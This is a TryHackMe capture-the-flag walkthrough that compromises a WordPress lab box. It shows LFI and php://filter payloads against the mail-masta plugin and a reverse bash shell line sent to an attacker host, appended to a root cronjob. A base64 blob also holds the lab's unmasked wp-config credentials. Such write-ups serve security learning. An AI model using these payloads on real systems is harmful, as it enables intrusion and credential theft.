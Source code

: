 ```yaml
---
title: TryHackMe All in One
date: 2020-12-21
categories: [TryHackMe]
thumbnail: /assets/img/thm/allinone/allinone.png
excerpt: We open up with an nmap scan finding a webserver available. From there, we fuzzed the site and found a wordpress directory which had a vulnerable plugin which we used to get an initial shell. Then we used a basic cronjob to get a root shell.
tags: [lfi,ftp,mail-masta,linpeas,wordpress,cronjob]
---
```


## Enumeration

### Nmap

We'll start of with running our nmap scan:

`nmap -sC -sV -T4 -p- --max-rate 10000 $IP -oN full`

![nmap](/assets/img/thm/allinone/nmap.png)

We have a few ports open:

|PORT | SERVICE | STATE|
|-----|---------|------|
|21 | vsftpd 3.0.3 | open|
|22 | OpenSSH 7.6p1 | open|
|80 | Apache httpd 2.4.29 | open|

### FTP

We tried connecting to FTP with anonymous login, there wasn't anything there and we couldn't `put` anything there. So we moved on to the website.

![ftp](/assets/img/thm/allinone/ftp.png)

### Website

`Port 80` showed a default Apache page:

![website](/assets/img/thm/allinone/defaultapache.png)

Let's go with gobuster to see what directories we can work with.

![gobuster](/assets/img/thm/allinone/gobuster.png)

We found a `/wordpress` directory, so let's go visit it.

### Wordpress

![wordpress](/assets/img/thm/allinone/wordpress.png)

We should run another gobuster against this to see what else we can work with, running gobuster against the wordpress directory:

![gobuster-2](/assets/img/thm/allinone/gobuster-worpress.png)

Since we are working with wordpress we can enumerate using `wpscan`:

![wpscan](/assets/img/thm/allinone/wpscan.png)

We have a few plugins that this utilizes. `mail-masta 1.0` and `reflex-gallery 3.1.7`

Finding exploits for `mail-masta`:

[mail-masta exploit-db](https://www.exploit-db.com/exploits/40290)

>This looks as a perfect place to try for LFI. If an attacker is lucky enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parameter, it is possible to include arbitrary files on the server.

We can try navigating using the PoC that was provided in the `exploit-db` page using

`wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![exploit](/assets/img/thm/allinone/mailmasta-exploit.png)

So we know we have a local file inclusion vulnerability, 

__php filter__

We can use a technique descibed in [SANS](https://www.sans.org/blog/getting-moar-value-out-of-php-local-file-include-vulnerabilities/)

>With the magic of the base64-encode PHP filter, though, the PHP interpreter will not interpret the resource as code. This allows us to see the original server-side PHP code content! 

Let's use this to grab with `wp-config.php` as this was one of the files we saw from fuzzing the wordpress directory.

`php://filter/convert.base64-encode/resource=../../../../../wp-config.php`

![phpfilter](/assets/img/thm/allinone/phpfilter.png)

```bash
echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvb
i4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb
3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zd
XBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KL
yoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgK
TsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogR
GF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMga
WYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT
01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxd
WUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91I
GNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42L
jANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJ
n52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N
300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgI
CdCIEFUQGk" | base64 -d
```

__wp-config.php__

Once decoded, we were able to see the contents of `wp-config.php`, this contained a few credentials we can try to either use with SSH or to login through `wp-admin`.

```php
/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '**********' );
```

SSH didn't work, so let's move onto `wp-admin`

![admin](/assets/img/thm/allinone/wpadmin.png)

![admindash](/assets/img/thm/allinone/admindash.png)

## Getting a shell

We can edit the `functions.php` to get our shell, that way all we have to do is hit the upload button and we get our shell immediately.

![upload](/assets/img/thm/allinone/uploadshell.png)

![shell](/assets/img/thm/allinone/shell.png)

We can navigate to `/dev/shm` or anyother world writable directory to upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

Running `linpeas` we see we have a cronjob runnning something called `script.sh` that's in `/var/backups`

![cron](/assets/img/thm/allinone/cron.png)

Looking at what sort of permissions `script.sh` has, we can see it is world read/write/executable, it also gets ran as root.

![script](/assets/img/thm/allinone/scriptperms.png)

So let's append our reverse bash shell to it.

`echo 'bash -i >& /dev/tcp/$LHOST/$PORT 0>&1' >> script.sh`

![script2](/assets/img/thm/allinone/editscript.png)

All we have to do is set up another netcat listener and wait little for the cronjob to execute.

![root](/assets/img/thm/allinone/root.png)

__Note__: flags are base64 encoded


